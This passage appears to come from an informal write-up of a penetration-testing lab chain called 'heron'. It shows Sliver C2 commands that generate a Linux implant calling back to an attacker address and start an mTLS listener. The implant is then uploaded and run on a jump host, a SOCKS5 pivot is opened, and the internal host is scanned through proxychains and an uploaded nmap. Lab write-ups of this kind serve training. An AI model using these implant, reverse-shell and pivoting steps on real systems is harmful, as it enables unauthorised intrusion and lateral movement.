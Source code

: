 then we can create reverse shell for linux machine

    sliver > generate --mtls 10.8.2.152 --os linux --arch amd64 --skip-symbols --save /opt/vulnlab/chains/heron --name heron_lin

    [*] Generating new linux/amd64 implant binary
    [!] Symbol obfuscation is disabled
    [*] Build completed in 13s
    [*] Implant saved to /opt/vulnlab/chains/heron/heron_lin

    sliver > mtls

    [*] Starting mTLS listener ...

    [*] Successfully started job #2

after we upload and run we will see got shell on sliver

    pentest@frajmp:/tmp$ chmod 777 heron_lin 
    pentest@frajmp:/tmp$ ls
    heron_lin
    snap-private-tmp
    systemd-private-577ffcc340834ae6a6a960d2799559f7-ModemManager.service-pvk2h5
    systemd-private-577ffcc340834ae6a6a960d2799559f7-systemd-logind.service-vRFEsp
    systemd-private-577ffcc340834ae6a6a960d2799559f7-systemd-timesyncd.service-LrE4Os
    pentest@frajmp:/tmp$ ./heron_lin &
    [1] 1721

we got shell succesfully on sliver lets start here socks5 

    sliver (heron_lin) > socks5 start

    [*] Started SOCKS5 127.0.0.1 1081  
    ⚠  In-band SOCKS proxies can be a little unstable depending on protocol

let see 10.10.140.245 had a no port open first lets check rn with proxychains.

    ➜  heron proxychains nmap -sT -p 445 10.10.140.245
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.17
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-12 21:23 EDT
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.140.245:445  ...  OK
    Nmap scan report for 10.10.140.245
    Host is up (0.085s latency).

    PORT    STATE SERVICE
    445/tcp open  microsoft-ds

great! all proxy work successfully rn.

lets start nmap scan on ssh cauze proxychains is so slow.

    sliver (heron_lin) > upload nmap 

we can use upload like evil-winrm

    pentest@frajmp:/tmp$ ./nmap -sT -p 22,80,88,443,445,3389,5985 --open 10.10.140.245

    Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-07-13 01:30 UTC
    Unable to find nmap-services!  Resorting to /etc/services
    Cannot find nmap-payloads. UDP payloads are disabled.
    Nmap scan report for 10.10.140.245
    Host is up (0.00073s latency).
    Not shown: 3 filtered ports
    PORT     STATE SERVICE
    80/tcp   open  http
    88/tcp   open  kerberos
    445/tcp  open  microsoft-ds
    3389/tcp open  ms-wbt-server

